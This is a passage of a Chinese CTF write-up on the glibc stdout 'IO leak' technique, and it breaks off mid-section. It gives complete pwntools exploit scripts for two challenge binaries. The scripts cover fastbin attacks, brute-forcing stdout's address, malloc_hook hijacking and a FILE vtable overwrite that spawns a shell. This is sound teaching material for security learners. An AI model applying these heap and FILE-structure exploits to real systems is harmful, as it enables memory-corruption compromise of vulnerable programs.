近期针对io leak这个手法，进行了学习，并做了几道相关题目。整理了一下，写了这篇文章。以后遇到了新的io leak的题目，再更新上来。

# 总结：

> 大致原理：
>
> 通过篡改\_IO\_2_1_stdout_结构体中的flags字段和\_IO_write_base字段，通过篡改flags字段来绕过一些检查，通过篡改\_IO_write_base字段使得系统调用write打印\_IO_write_base字段与\_IO_write_ptr字段之间的内容泄露出libc地址。
>
>
> 使用前提：
>
> 1、程序没有show函数
>
> 2、开启了FULL RELRO保护
>
>
> 利用过程：
>
> 1、想办法将\_IO\_2_1\_stdout\_结构体申请出来。
>
> 2、往\_IO\_2_1\_stdout\_结构体写入构造好的数据(具体是什么下面会说)。
>
> 3、执行任意一个puts函数，就可以将libc地址泄露出来。


## 第一步--申请

在不同的libc版本，申请时也有略微的区别。

### 不同libc版本对于stdout结构体的申请

先说2.27和2.31这两个版本，因为在这两个版本时，没有针对tcachebin的fd指针进行相关保护。就导致了tcache poisoning修改其fd指针就可以直接将堆块申请出来。所以我们只要能控制fd指针，就可以直接将\_IO\_2_1\_stdout\_结构体(之后统称为stdout结构体)申请出来。

而在2.23的libc版本中，从fastbin中申请堆块是对size位进行了检查。而我们能伪造size通过检查的地址只有malloc_hook-0x23和stdout结构体地址-0x43这两处。不过还好我们依然可以通过伪造size将stdout结构体申请出来。因此只要能控制fastbin中的fd指针，问题依然不大。

PS：为什么只有2.23 2.27 2.31这三个版本的libc。淦，因为目前只练习了这三个版本的io leak。

### 爆破一比特申请stdout结构体

但上面这两种情况都没有考虑到一个问题，就是使用io leak的时候，肯定我们是没有libc地址的，那我们就无法直接将tcachebin或者fastbin的fd指针修改为stdout结构体地址。对此我们采用的策略是利用unsorted bin中的fd指针进行利用。因为unsorted bin中的fd指针指向了的是main arena+88或者main arena+96的位置，这里位于libc中。如果这个地址能出现在fastbin或者tcachebin中fd的位置，且我们可以对fd指针进行编辑，那我们就可以将其修改为stdout结构体地址(stdout结构体地址的后三位是固定的，但是倒数第四位会因为ASLR的原因而随机化，可我们只能写入两字节，无法写入一个半字节，因此倒数第四位只能通过爆破来预测)。

### 如何在fastbin或者tcachebin中留下unsorted bin中的fd指针？具体情况，具体分析

而如何让unsorted bin中的fd指针出现在fastbin或者tcachebin中的fd的位置，这就属于八仙过海各显神通了，不同题目的思路都不一样。这里就具体题目具体分析吧。

## 第二步--编辑

将stdout结构体申请出来后，正常情况下是可以往里面写入数据的。

我们需要**覆盖stdout结构体中的_flags字段为0xfbad1887，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base这三个指针为0，最后覆盖\_IO\_write\_base指针的最后一字节为00**(这里并不是非要为00，因为到时候puts函数会泄露\_IO\_write\_base指针与\_IO\_write\_ptr指针之间的所有数据，只要将\_IO\_write\_base指针改的小于\_IO\_write\_ptr指针并且确定这二者之间存在libc地址，那么都是可以的，只不过我通常将其覆盖为\x00)

至于为什么要将_flags字段改为0xfbad1887这个值，是因为这个字段的各个比特位都属于标志位，不同比特位存在的意义不同，能绕过的检查也不同。而将\_flags字段改为0xfbad1887这个值，正好可以绕过阻止我们完成io leak的所有检查(具体是哪些检查又或者如何绕过的，可以去网上看一下其他师傅的博客，当时感觉师傅们写的很全并且很好，我就没再去单独写了)，然后read那三个指针，我试了一下，他们的值无所谓(不一定非要写成00)。

编辑后stdout结构体如下：




## 第三步--泄露

emmm，前两步都完成的话，第三步执行puts函数时顺其自然就泄露了libc地址，这个就没啥好说的了。


# 题目练习

## de1ctf_2019_weapon

### 保护策略：




### 漏洞分析：




delete函数中存在UAF漏洞。

### 大致思路：

在2.23的libc中的话，可以利用UAF打一个double free。利用edit函数的话再打一个fastbin attack。\_IO_2_1_stdout结构体上方和\_\_malloc\_hook上方都有一个0x7f(这个具体的要求就是有一个0x7f开头的地址，然后该地址的下一个内存单元为NULL)，可以去利用fastbin attack从这里申请出来一个fake chunk，最终可以泄露libc地址或者劫持hook获取shell。

#### 伪造size，将chunk释放到unsorted bin中

由于这道题无法申请超过0x60的chunk，因此我们的正常chunk被释放掉无法进入unsorted bin中，所以需要先打一个fastbin attack将一个fake_chunk申请到某个堆块的size位上方，然后通过edit函数来篡改其size位。放入unsorted bin中的原因是因为我们无法泄露libc地址，因此无法直接拿到\_IO_2_1_stdout结构体的地址，只能利用unsorted bin中的fd指针main_arena+88这个libc地址，通过篡改其后四比特位(最后三位是固定的，倒数第四位需要爆破)来获取\_IO_2_1_stdout结构体上方的地址。

这部分脚本如下:

就是先打一个fastbin attack，然后申请出来fake chunk，篡改一个chunk的size即可。

```py
    add(0x60,0,'a')
    add(0x60,1,'b')
    add(0x60,8,'d')
    add(0x20,7,'prevent_chunk')
    delete(1)
    delete(0)
    edit(0,'\x50')
    debug(p,'pie',d_a,d_d,d_e,0xB35)
    add(0x60,5,p64(0)*9+p64(0x71))
    add(0x60,6,p64(0)*3+p64(0xe1))
```

下图已经篡改成功：




#### 将unsorted bin中的堆块放入fastbin中

因为需要打fastbin attack将main_arena+88这个地址进行篡改，所以要先把unsorted bin中的堆块放入fastbin中，想实现这个的话，还是用fastbin attack进行操作。

```c
    delete(1)#将大堆块释放，使其进入unsorted bin中
    
    delete(0)
    delete(8)
    debug(p,'pie',d_a,d_d,d_e)

    edit(8,'\x70')#将unsorted bin中的堆块篡改到fast bin上
```

上述代码实现将unsorted bin中的堆块放入fast bin中。

下图为修改前的bins情况



下图为修改后的bins情况




#### 爆破一比特位，将fake_chunk申请到stdout结构体上方

由于我们的fake_chunk进入了fast bin中，但是其size是之前被伪造过的0xe1，要想从fastbin中再申请出来还需要再改回去。同时需要打fastbin attack将fake_chunk申请到stdout结构体上方，这个地址是在&\_IO\_2\_1\_stdout_-0x43的位置，因为我们需要一个地址是0x7f开头，同时下一个内存单元为0的地址。

如下图这里就是符合条件的地方：




经过计算发现该stdout结构体地址-0x43的位置成功伪造了size




而这个地址的后三位是固定的，倒数第四位是随机的 ，但是我们只能写两字节因此第四位必须要去爆破。(在调试的时候关闭ASLR就无需爆破了，等脚本写完了再去写爆破部分)

然后fake_chunk申请到stdout结构体上方后，我们去改变结构体的_flags字段和\_IO_write_base字段(具体原理的话可以看这篇[文章](https://www.cnblogs.com/pwnfeifei/p/15793432.html))，等再次调用puts函数的时候，我们就可以获取libc基地址了（需要注意的是将\_flags字段改成0xfbad1880，之后的puts都不会再加\n了，因此要处理一下接收部分。不过用0xfbad1887就是正常的）。

这部分exp中的代码如下：


```py
    edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')#伪造0x71的size，使其通过fast bin的检查,伪造fake chunk到stdout结构体上方(需要爆破一位)
    add(0x60,9,'a')#将fastbin中的堆块申请出去，打fastbin attack
    add(0x60,10,'a')
    
    add(0x60,11,b'\x00'*0x33+p64(0xfbad1800)+p64(0)*3+b'\x00')#篡改结构体中的字段
    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
```


#### 劫持malloc_hook

有了libc基地址，还可以打fastbin attack的话，那就是一个常规的劫持malloc_hook了，就利用malloc_hook-0x23那个位置存在的0x7f来伪造成size将malloc_hook申请出来，然后这道题的话one_gadget也都不通，需要用realloc函数来调整一下栈帧。

这部分exp如下：

```py
    add(0x60,10,'a',0) 
    delete(10,0)
    edit(10,p64(malloc_hook-0x23),0)
    add(0x60,12,'a',0)
    add(0x60,13,b'\x00'*0xb+p64(one_gadget)+p64(realloc+6),0)
    p.sendlineafter('choice >> ',str(1))
    p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
    p.sendlineafter('input index: ',str(14))
```


### EXP:

由于这道题需要爆破一比特位，因此我们最终还有再加一个爆破部分。最终的exp如下：
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
#context.log_level='debug'
context.arch='amd64'
p,e,libc=load('a')
#p=remote('node4.buuoj.cn',28187)
d_a=0xEAE
d_d=0xec0
d_e=0xed2
def add(size,index,content,choice=1):
    if choice:
        p.sendlineafter('choice >> \n',str(1))
    else:
        p.sendlineafter('choice >> ',str(1))

    p.sendlineafter('wlecome input your size of weapon: ',str(size))
    p.sendlineafter('input index: ',str(index))
    if choice:
        p.sendafter('input your name:\n',content)
    else:
        p.sendafter('input your name:',content)
    
def edit(index,content,choice=1):
    if choice:
        p.sendlineafter('choice >> \n',str(3))
    else:
        p.sendlineafter('choice >> ',str(3))
    p.sendlineafter('input idx: ',str(index))
    if choice:
        p.sendafter('new content:\n',content)
    else:
        p.sendafter('new content:',content)

    
def delete(index,choice=1):
    if choice:
        p.sendlineafter('choice >> \n',str(2))
    else:
        p.sendlineafter('choice >> ',str(2))
    p.sendlineafter('input idx :',str(index))
    
def pwn():
    add(0x60,0,'a')
    add(0x60,1,'b')
    add(0x60,8,'d')
    add(0x20,7,'prevent_chunk')
    delete(1)
    delete(0)
    edit(0,'\x50')
    
    add(0x60,5,p64(0)*9+p64(0x71))
    add(0x60,6,p64(0)*3+p64(0xe1))


    delete(1)#将大堆块释放，使其进入unsorted bin中
    
    delete(0)
    delete(8)
    

    edit(8,'\x70')#将unsorted bin中的堆块篡改到fast bin上
    
    edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')#伪造0x71的size，使其通过fast bin的检查,伪造fake chunk到stdout结构体上方(需要爆破一位)


    add(0x60,9,'a')#将fastbin中的堆块申请出去，打fastbin attack
    add(0x60,10,'a')
    
    add(0x60,11,b'\x00'*0x33+p64(0xfbad1800)+p64(0)*3+b'\x00')
    
    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3c5600
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    log_addr('leak_libc')
    log_addr('libc_base')
    one_gadget=libc_base+search_og(1)
    realloc=libc_base+libc.symbols['realloc']
    log_addr('one_gadget')
    
    
    add(0x60,10,'a',0) 
    delete(10,0)
    
    edit(10,p64(malloc_hook-0x23),0)
    add(0x60,12,'a',0)
    
    add(0x60,13,b'\x00'*0xb+p64(one_gadget)+p64(realloc+6),0)
    p.sendlineafter('choice >> ',str(1))
    
    p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
    #debug(p,'pie',d_a,d_d,d_e)
    p.sendlineafter('input index: ',str(14))
    p.interactive()

while 1:
    try:
        p=remote('node4.buuoj.cn',29923)
        pwn()
    except:
        p.close()

```


## nsctf_online_2019_pwn1

通过这道题的学习与总结有：

1、篡改_IO_FILE结构体中的vtable字段时，要不可避免的填充之前的字段，但如果将\_lock字段破坏的话，在执行输出函数中最开始上锁的宏`_IO_acquire_lock (_IO_stdout)`就会崩溃掉，因此需要保证\_lock字段是正常的。

2、如果想通过直接修改\_IO\_2\_1\_stdout\_结构体中的字段来获取shell的话，我们可以将\_flags字段写入字符串/bin/sh\x00(是字符串，并非该字符串的地址)，然后将vtable修改为\_IO_2_1_stdout_的地址+0x10，然后将\_IO_save_base字段写成system地址，最后要将\_lock字段写入原本正常的值。这样当执行puts函数的时候会调用vtable中的\_IO\_new\_file\_xsputn函数，但是vtable已经被修改，这个函数的偏移是0x38,而vtable被修改成\_IO\_2_1\_stdout\_的地址+0x10,最终调用的是\_IO\_2_1\_stdout\_的地址+0x48的函数指针，而这个位置就是\_IO_save_base字段，里面放的是system的地址。而\_IO\_new\_file\_xsputn函数的第一个参数是\_IO\_2_1\_stdout\_的地址，而这个地址原本应该是\_flags字段，但是现在却被写入了/bin/sh字符串。因此本来正常调用的\_IO\_new\_file\_xsputn函数如今变成了system(‘/bin/sh\x00’),从而获取shell。(该方法只能在libc2.23以上的版本就无法再使用了)

3、**只有off by null漏洞的话，想需要将unsorted bin中的fd放到fastbin的fd上，需要打两次off by null+堆块重叠，并且最后将其申请出来之前，需要篡改一下size的大小。**


### 保护策略：




### 漏洞分析:

首先在edit函数中，输入索引的部分，检查不完全，导致了这个索引是可以为负溢出的。




然后在edit函数写入数据的地方，如果add创建时的大小等于edit时输入的大小，那么就有一个off by null漏洞。


### 利用思路：

#### 思路一：利用索引为负，溢出漏洞



我们发现数组的索引为负数，是可以找到bss段存放的stdout指针，而这个指针存放的是\_IO_2\_1_stdout\_结构体指针，如果read往里面写数据的话，就可以直接篡改\_IO_2\_1_stdout\_结构体的各个字段。

通过这个方式，我们可以打一个io leak，泄露libc地址，然后再篡改_flags、\_lock、vtable、\_IO_save_base字段，最终劫持vtable中的\_IO\_new\_file\_xsputn函数为system函数，执行获取shell。

这次跟着[roderick师傅的博客](https://www.cnblogs.com/LynneHuan/p/15229822.html)学到了这个FileStructure()的用法，感觉蛮方便的。
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
#### EXP:

```py
from tools import *

context.log_level='debug'
context.arch='amd64'
p,e,libc=load('pwn')
p=remote('node4.buuoj.cn',27580)
d_a=0xF1B
d_d=0xF27
d_e=0xF3f
def add(size,content):
    p.sendlineafter('5.exit\n',str(1))
    p.sendlineafter('Input the size:\n',str(size))
    p.sendlineafter('Input the content:\n',content)
    p.recvuntil('Add success\n')
    
def edit(index,size,content):
    p.sendlineafter('5.exit\n',str(4))
    p.sendlineafter('Input the index:\n',str(index))
    p.sendlineafter('Input size:\n',str(size))
    p.sendafter('Input new content:\n',content)
    
def delete(index):
    p.sendlineafter('5.exit\n',str(2))
    p.sendlineafter('Input the index:\n',str(index))
    p.recvuntil('Delete success\n')
    
    
add(0x100,'a')#0
payload=p64(0xfbad1887)+p64(0)*3+b'\x00'//改成0xfbad1887的话,puts函数打印出来的数据后面依然有\n
#debug(p,'pie',d_d,d_a,d_e,0xe34)
edit(-0x10,0xf0,payload)
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log_addr('leak_libc')
libc_base=leak_libc-0x3c36e0
log_addr('libc_base')
file=FileStructure()
file.flags=b'/bin/sh\x00'
file.vtable=libc_base+libc.symbols['_IO_2_1_stdout_']+0x10
file._IO_save_base=libc.symbols['system']+libc_base
file._lock=libc_base+0x3c6780#确保这个_lock字段的值是正常的
edit(-0x10,0xf0,bytes(file))
p.interactive()
```




#### 思路二：利用off_by_null

这个思路比较常规，也比较麻烦。

主要是通过两次off by null造成两次堆块重叠，然后将unsorted bin中的fd指针写入fastbin中的fd位置。然后打fastbin attack进行io leak。最后再打fastbin attack往malloc_hook中写入one_gadget。

整体来说最麻烦的部分就是将unsorted bin中的fd指针写入fastbin中的fd位置。

这里的具体过程如下：

